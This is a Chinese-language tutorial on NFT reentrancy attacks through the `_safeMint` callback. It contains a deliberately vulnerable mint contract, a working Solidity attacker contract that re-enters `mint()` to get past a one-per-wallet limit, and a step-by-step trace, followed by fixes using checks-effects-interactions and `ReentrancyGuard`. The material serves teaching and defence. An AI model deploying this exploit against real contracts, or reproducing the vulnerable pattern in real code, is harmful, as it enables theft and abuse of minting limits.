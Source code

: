 # NFT重入攻击

### 1. 经典重入攻击复习

在深入 NFT 场景前，我们先快速回顾一下经典重入攻击的核心：

1. 一个合约 A 调用另一个外部合约 B。
2. 合约 A 在完成这次外部调用**之后**，才更新自己的内部状态（例如，扣减余额）。
3. 恶意合约 B 在被调用时，反过来**重新进入 (re-enter)** 合约 A 的同一个函数。
4. 由于合约 A 的状态还未更新，其内部检查（如“检查余额是否足够”）会再次通过，导致攻击者可以重复执行某个操作。



### 2. NFT 重入攻击的“钩子”：`onERC721Received`



那么，在 NFT 的世界里，攻击者是如何找到机会重新进入铸造函数的呢？答案就在于 ERC721 标准中的一个“安全”特性：**`_safeMint` 函数**。

- **`_mint` vs. `_safeMint`
  `_mint` 与 `_safeMint`**
  - `_mint()`：一个内部的、基础的铸造函数。它只是简单地创建一个新的 NFT 并分配给某个地址。
  - `_safeMint()`：这是一个更安全的版本。在将 NFT 分配给一个地址时，如果这个地址是一个**智能合约**，`_safeMint` 会**主动调用 (call)** 这个接收方合约的一个特殊函数——`onERC721Received()`。
- **`onERC721Received` 的作用**：
  - 它的设计初衷是好的，是为了防止 NFT 被意外地发送到一个无法处理 ERC721 代币的合约地址，导致 NFT 被永久锁定。接收方合约必须实现这个函数并返回一个特定的“魔术值”，才能证明自己“知道”如何接收和处理 NFT。
- **攻击的切入点**：
  - `_safeMint` 对接收方合约的这个**外部调用**，就为攻击者打开了重入的大门！如果 NFT 合约的铸造逻辑有缺陷，攻击者就可以在自己的 `onERC721Received` 函数里编写恶意代码，重新进入铸造函数。

------



### 3. 攻击场景实例：绕过“每人一个”的铸造限制



假设有一个热门的 NFT 项目，为了公平，规定每个钱包地址只能免费铸造一个 NFT。

**有漏洞的 NFT 合约 (`VulnerableNFT.sol`) 👎**

Solidity 坚固性

```
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import "@openzeppelin/contracts/utils/Counters.sol";

contract VulnerableNFT is ERC721 {
    using Counters for Counters.Counter;
    Counters.Counter private _tokenIdCounter;

    constructor() ERC721("Vulnerable NFT", "VNFT") {}

    function mint() public {
        // **漏洞点 1: 检查在交互之前**
        // 检查用户是否已经铸造过
        require(balanceOf(msg.sender) == 0, "Each address can only mint one NFT.");

        _tokenIdCounter.increment();
        uint256 tokenId = _tokenIdCounter.current();

        // **漏洞点 2: 交互 (外部调用) 在状态更新之前**
        // 使用了 _safeMint，它会调用外部合约
        _safeMint(msg.sender, tokenId);

        // 想象一下如果还有其他状态更新，比如 hasMinted[msg.sender] = true;
        // 放在这里就太晚了。
    }
}
```

这个合约的逻辑看起来没问题：先检查余额，再铸造。但它违反了安全的**“检查-生效-交互”**模式。状态的真正改变（`balanceOf` 的增加）发生在 `_safeMint` 这个“交互”步骤**之后**。

**攻击者的合约 (`Attacker.sol`)**

Solidity 坚固性

```
import "./VulnerableNFT.sol";

contract Attacker {
    VulnerableNFT public vulnerableNft;
    uint256 public mintCount = 0;

    constructor(address _nftAddress) {
        vulnerableNft = VulnerableNFT(_nftAddress);
    }

    // 攻击入口函数
    function attack() public {
        // 只需要调用一次 mint()
        vulnerableNft.mint();
    }

    // **核心攻击代码：重入的钩子**
    // 当 _safeMint 调用本合约时，这个函数会被触发
    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        // 如果我们还没铸造够5个，就继续调用 mint()
        if (mintCount < 5) {
            mintCount++;
            vulnerableNft.mint(); // **重新进入！**
        }
        return this.onERC721Received.selector;
    }
}
```

**攻击流程一步步分解：**

1. 攻击者部署 `Attacker` 合约。
2. 攻击者调用 `Attacker.attack()`，这会触发对 `VulnerableNFT.mint()` 的第一次调用。
3. **进入 `mint()` (第一次)**：
   - `require(balanceOf(Attacker.address) == 0)` 检查通过，因为攻击合约此时确实没有 NFT。
   - 合约执行 `_safeMint(Attacker.address, 1)`。
4. **控制权转移**：`_safeMint` 检测到接收方是合约，于是调用 `Attacker.onERC721Received()`。程序的执行流程进入了攻击者的合约！
5. **进入 `onERC721Received()`**：
   - `mintCount` (初始为0) 小于5，条件成立。
   - `mintCount` 增加到1。
   - 攻击合约**再次调用** `VulnerableNFT.mint()`。
6. **重新进入 `mint()` (第二次)**：
   - `require(balanceOf(Attacker.address) == 0)` **检查再次通过！** 为什么？因为第一次的 `_safeMint` 调用还没有执行完毕，`balanceOf` 的状态更新要等到整个外部调用（包括 `onERC721Received`）全部返回后才会最终完成。
   - 合约执行 `_safeMint(Attacker.address, 2)`，这又会触发 `onERC721Received`...
7. 这个过程会循环往复，直到 `onERC721Received` 中的 `mintCount < 5` 条件不再满足。
8. 最终，所有调用栈依次返回，状态被更新。攻击者**只发起了一笔交易，却成功地为自己铸造了5个 NFT**，完全绕过了“每人一个”的限制。

------



### 4. 如何修复和防范？



防范方法完全遵循经典重入攻击的解决方案。



#### a. 遵循“检查-生效-交互”模式 (Checks-Effects-Interactions)



这是最根本的解决方案。**在进行任何可能触发外部调用的交互之前，完成所有内部状态的更新。**

**安全的代码 (手动更新状态) 👍**

Solidity 坚固性

```
contract SecureNFT is ERC721 {
    mapping(address => bool) public hasMinted;
    // ...

    function mint() public {
        // 1. 检查 (Check)
        require(!hasMinted[msg.sender], "Already minted.");

        // 2. 生效 (Effect) - **先更新状态！**
        hasMinted[msg.sender] = true;

        // ... 分配 tokenId ...

        // 3. 交互 (Interaction) - 最后才进行外部调用
        _safeMint(msg.sender, tokenId);
    }
}
```

在这个安全版本中，当攻击者重入 `mint()` 时，`hasMinted` 检查会立即失败，从而阻止了攻击。



#### b. 使用 OpenZeppelin 的 `ReentrancyGuard`



这是最简单、最有效的“一键式”解决方案。

**安全的代码 (使用修饰符) 👍**

Solidity 坚固性

```
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureNFT is ERC721, ReentrancyGuard {
    // ...
    
    // 使用 nonReentrant 修饰符
    function mint() public nonReentrant {
        require(balanceOf(msg.sender) == 0, "Already minted.");
        // ...
        _safeMint(msg.sender, tokenId);
    }
}
```

`nonReentrant` 修饰符会在函数开始时“上锁”，在函数结束时“解锁”。如果函数在执行期间被重入，它会检测到锁还未被解开，并立即 `revert` 交易。

**总结：** NFT 重入攻击是利用了 `_safeMint` 中 `onERC721Received` 回调机制的一个巧妙攻击。开发者必须时刻警惕任何可能导致外部调用的函数（如 `_safeMint`），并严格遵守**“检查-生效-交互”**的设计模式，或者直接使用像 `ReentrancyGuard` 这样经过审计的安全模块来保护自己的合约。

